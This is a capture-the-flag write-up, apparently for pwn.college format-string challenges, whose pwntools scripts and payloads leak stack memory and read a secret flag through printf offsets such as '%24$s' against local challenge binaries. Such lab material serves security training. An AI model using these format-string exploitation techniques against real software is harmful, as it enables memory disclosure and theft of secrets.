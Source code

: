 # Format Strings Exploit

## level1.0 & level1.1

`%p` prints 8 bytes

```python
from pwn import *
p = process('/challenge/babyfmt_level1.0')

p.recvuntil(b'Send your data!')
payload = b'%p'*16
p.sendline(payload)
p.recvuntil(b'I will now call printf on your data!\n\n')

l = str(p.recvline())[2:-3].replace('(nil)','').split('0x')
for x in l:
    try:
        print(bytes.fromhex(x).decode('utf-8')[::-1],end="")
    except:
        pass

p.interactive()
```

## level2.0

- We know the address where the secret is stored, let it be `addr`
- Give a string of space-separated `%p` as input, like in level1: "%p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p"
- In output, note at which position `addr` is printed, say **7th** parameter
- Run the program again, and now give the input `%7$s`

## level2.1

- Here, we don't knoow the address of the secret
- Replace all `%p` with `%s` where the printed output looks like a memory address

```text
in:  %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p
out: 0x7881a8a0f723 (nil) 0x7881a8930297 0xa 0x25 0xfffffffffffffff8 0x7fffef602e70 (nil) (nil) (nil) (nil) (nil) (nil) (nil) (nil) (nil)

in:  %s %p %s %p %p %p %s
out:  (nil) H= 0xa 0x25 0xfffffffffffffff8 IXWEYCSPCCAUMXQ
```

## level3.1

- Given: bss address = 0x404140
- Try looping over `%i$x`:

    ```python
    for i in range(1, 100):
    p = process('/challenge/babyfmt_level3.0')
    p.recvuntil(b'Send your data!')
    
    payload = f'%{i}$x \x40\x41\x40'.encode()

    p.sendline(payload)
    p.recvuntil(b'I will now call printf on your data!\n\n')
    op = p.recvuntil(b'Goodbye!')
    if b"40" in op or b"41" in op:
        print(op, "index:",i)
    p.close()
    ```

    But, no Luck here
- Try looping over `%i$lx`

    ```text
    payload = f'%{i}$lx \x40\x41\x40'.encode()
    > b'a40414020786c24 @A@\n\n### Goodbye!' index: 23
    ```

    getting closer..

    ```text
    payload = f'%{23}$lx \x40\x41\x40'.encode()
    > b'a40414020786c24 @A@\n\n### Goodbye!'

    payload = f'%{23}$lx \x40\x41\x40\x00'.encode()
    > b'40414020786c24 @A@\n### Goodbye!'

    payload = f'%{24}$lx AAAA\x40\x41\x40\x00'.encode()
    > b'a00404140 AAAA@A@\n### Goodbye!'

    payload = f'%{24}$lx AAAA\x40\x41\x40\x00\x00\x00\x00\x00'.encode()
    > b'404140 AAAA@A@\n### Goodbye!'

    payload = f'%{24}$x AAAAA\x40\x41\x40\x00\x00\x00\x00\x00'.encode()
    > b'404140 AAAAA@A@\n### Goodbye!'

    payload = f'%{24}$s AAAAA\x40\x41\x40\x00\x00\x00\x00\x00'.encode()
    > b'pwn.college{xxxxxxxxxxxxxxxxxxxxxxxx}\n AAAAA@A@\n### Goodbye!'
    ```
